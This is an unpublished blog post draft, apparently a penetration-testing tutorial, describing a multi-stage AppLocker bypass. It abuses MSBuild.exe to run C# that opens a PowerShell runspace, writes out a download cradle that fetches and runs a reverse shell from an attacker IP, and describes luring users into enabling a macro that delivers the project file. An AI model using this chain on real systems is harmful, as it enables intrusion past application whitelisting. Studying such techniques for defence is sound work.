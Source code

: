 ```yaml
---
layout: post
title: Multi-Stage MSBuild AppLocker Bypass
published: false
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png)

### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and despite simulated phishing campaigns and training there can never be complete assurance against credential divulgence or execution of malicious code.  So it is critically important that organisations implement a multi-layered "defence in depth" strategy. Application whitelisting is an important component of such a strategy, and is an effective means of ensuring that only _known good_ applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. The default AppLocker rules for Windows 10 are listed below.

![rules]({{ site.url }}/images/applocker-default-rules.png)

Since Powershell has gained recognition for being the attackers language of choice, many organisations are [increasingly] additionally blocking it. However, blocking powershell.exe is often not sufficient and there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with the "misplaced trust binary" MSBuild.exe. In this scenario, the company has enabled AppLocker with default rules and has also blocked Powershell.

![rules]({{ site.url }}/images/applocker-rules.png)

We can pass a ".csproj" (Visual Studio .NET C# Project file) to MSBuild and have it execute C#, in order to instantiate a Powershell runspace using System.Management.Automation.dll. The powashell.csproj file below by Casey Smith builds upon Jared Atkinson's And Justin Warner's work.

<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>

We will use this runspace to download and execute our reverse shell using a PowerShell 3.0+ download cradle:

```pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");```

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>

Good. But now we need a means of delivering the project file and executing MSBuild. The macro below will download the csproj file to disk In order for the user to execute the macro the document needs to be dressed appropriately. (John Lambert...)

https://pbs.twimg.com/media/DWHHdvJV4AAvl22.jpg


<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>


